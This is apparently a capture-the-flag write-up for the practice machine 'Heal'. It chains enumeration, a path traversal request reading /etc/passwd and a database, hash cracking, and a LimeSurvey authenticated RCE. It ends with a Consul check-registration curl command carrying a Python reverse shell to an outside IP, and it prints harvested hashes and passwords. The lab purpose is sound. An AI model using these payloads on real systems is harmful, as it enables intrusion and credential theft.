## Box Info

| Name                  | Heal             | 
| :-------------------- | ---------------: |
| Release Date          | 14 Dec, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Medium           |

## Enumeration

```bash
sudo nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.46 -oG allPorts
```

```bash
nmap -p 80,22 -sCV 10.10.11.46 -oN targeted
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
echo "10.10.11.46 heal.htb" | sudo tee -a /etc/hosts
```

```bash
dirb http://heal.htb
```



Intercept with BurpSuite the resquest when log in



**API** as subdomain

- Run wfuzz for confirm

```zsh
wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --hc 400,403,404,302,301 -H "Host: FUZZ.heal.htb" -u http://heal.htb/ -t 100
```



Adding to the hosts file



But there's nothing, we go back to register. Now, after registering, we can log in.
We found a section call Take The Survey and redirect us to another subdomain


- ralph is administrator 



### Scan Directory

```zsh
gobuster dir -u http://take-survey.heal.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```r
/docs                 (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/docs/]
/themes               (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/themes/]
/modules              (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/modules/]
/admin                (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/admin/]
/assets               (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/assets/]
/upload               (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/upload/]
/plugins              (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/plugins/]
/vendor               (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/vendor/]
/application          (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/application/]
/restaurants          (Status: 500) [Size: 45]
/surveys              (Status: 200) [Size: 75816]
/editor               (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/editor/]
/tmp                  (Status: 301) [Size: 178] [--> http://take-survey.heal.htb/tmp/]
/LICENSE              (Status: 200) [Size: 49474]
/rest                 (Status: 500) [Size: 45]
```

- Version of LimeSurvey

https://github.com/LimeSurvey/LimeSurvey/tree/master/docs

```zsh
http://take-survey.heal.htb/docs/release_notes.txt
```



we found panel administrator, now we know ralph is administrator


Resume Builder (The app give us a pdf with the resume)

When intercept the download we can see query parameter "filename"



## Path Traversal

```zsh
GET /download?filename=../../../../etc/passwd HTTP/1.1
```

We found a potential PT when the request is GET, we can change the file pdf as /etc/passwd




### Users

```zsh
ralph
ron
www-data
```

api.heal.htb its from ruby on rails so we need to found the config file




Now we looking the config file trought Path Traversal and open the pdf file 



``../../development.sqlite3`

we need to change to .sqlite3 extension and open it




`mv 0bdcc2fb3.pdf database.db`

```sql
sqlite3 database.db
```

```sql
.tables
```




```sql
SELECT * FROM users;
```

```
ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
elliot@test.com|$2a$12$HYWjZkQcKOvLLtpqmK3BU..XttEbPOq5vd4M/IqmknFvRZ12HjLju
fake_email@g.com|$2a$12$L3v4SYklWOJt6ew1ThCkfOzyOzNUaWFxSHYktaCNsDrAO45syQRtK
da@da.ce|$2a$12$1bbrSpCjqnZ6A16epkujj.vgQ0UotDdzAYYHVg3dKCzaiH1aGkVeK
test@test.com|$2a$12$HQJ64SJrpZXWPecdgAg.GuvXiaaW2oUztUtUUaxZjpsxDYZwD1Jmu0
test1@test.com|$2a$12$cPJz41IVeH57DPuZ6BlhlOu.I2vfAlMiLq3QEUL1JXlF9myD0cyJS
```

```zsh
john hash -w=/usr/share/wordlists/rockyou.txt
```




Creds:

ralph
147258369

Log In on take-survey.heal.htb




Once log in, we can run the CVE-2021-44967 (RCE) 

https://github.com/TheRedP4nther/limesurvey-6.6.4-authenticated-rce

This rce affect to lime survey 6.6.4, just follow the installation and usage

Edit
    config.xml: Plugin configuration file.
    revshell.php: Reverse shell payload.


Upload the rev.zip file and activate



You can see if the zip load correct and activate correct




```
rlwrap nc -lvnp 443
```

```zsh
python3 limesurvey_rce.py -t http://take-survey.heal.htb/ -u ralph -p 147258369
```




```zsh
sh -c /bin/sh -i
```

`cat /var/www/limesurvey/application/config/config.php`

```
db_user
AdmiDi0_pA$$w0rd
```



`ser=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey`

- PostgreSQL

*Environment variable that PostgreSQL recognizes to temporarily provide the password*
```sql
PGPASSWORD='AdmiDi0_pA$$w0rd psql' -U db_user survey -h localhost
```

but therers nothing with do, so we again to look

```zsh
netstat -nlp
```


I use curl for look if theres a website

```
curl -X GET "http://localhost:5800/"
```

Redirect to **/ui/**



```
curl -X GET "http://localhost:5800/ui/"
```



*google it as consul 1.19.2 exploit*




```zsh
curl -X GET http://localhost:8500/ui/ | grep "Consul"
```




## Remote Command Execution

https://www.exploit-db.com/exploits/51117

I supported with deepseek AI for generate a cURL command with json format




and modify some parameters

```bash
curl -X PUT  -d '{
    "ID": "rc",
    "Name": "Remote code execution",
    "Shell": "/bin/bash",
    "Interval": "5s",
    "Args": [
        "python3",
        "-c",
        "import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"10.10.15.14\", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p=subprocess.Popen([\"/bin/sh\", \"-i\"])"
    ]
}' http://localhost:8500/v1/agent/check/register
```


run it and rooted



